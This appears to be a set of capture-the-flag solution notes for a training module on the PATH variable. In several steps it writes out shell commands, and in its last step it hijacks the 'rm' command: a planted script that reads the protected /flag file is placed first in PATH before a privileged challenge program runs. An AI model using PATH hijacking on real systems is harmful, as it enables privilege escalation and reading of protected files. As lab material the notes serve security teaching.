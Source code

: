 # 1. The PATH variable

 PATH=" "
 /challenge/run

 # 2. Setting PATH

PATH=/challenge/more_commands/
/challenge/run

# 3. Adding commands

vim win
i
cat /flag
:wq

cat win
chmod +x win
PATH="$PATH:/home/hacker"
/challenge/run

# 4. Hijacking Commands

PATH=/home/hacker:$PATH
nano rm
cat rm
cat /flag
/challenge/run

